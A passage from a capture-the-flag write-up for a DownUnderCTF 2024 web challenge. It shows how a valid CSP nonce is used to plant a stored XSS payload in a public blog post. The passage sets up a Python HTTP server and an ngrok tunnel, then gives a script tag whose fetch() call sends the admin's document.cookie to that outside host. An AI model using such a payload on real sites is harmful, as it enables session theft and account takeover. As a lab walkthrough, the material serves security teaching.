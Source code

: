![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709175658.png)

Valid nonce in path `/`: **`abfbce049d9b88169854405a12885883f633e33bff53c00bea056033ec92d831`**

> Note: We can also manually calculate the SHA256 nonce.

- Setup a simple HTTP server for exfiltrating the admin's cookie

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2v2)-[2024.07.09|17:58:15(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2)-[2024.07.09|17:58:29(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://1c4f-{REDACTED}.ngrok-free.app -> http://localhost:80
[...]
```

- Create a new blog post with XSS payload, and make it public

**XSS payload:**
```html
<script nonce='abfbce049d9b88169854405a12885883f633e33bff53c00bea056033ec92d831'>fetch("https://1c4f-{REDACTED}.ngrok-free.app/?cookie="+document.cookie);</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709180027.png)
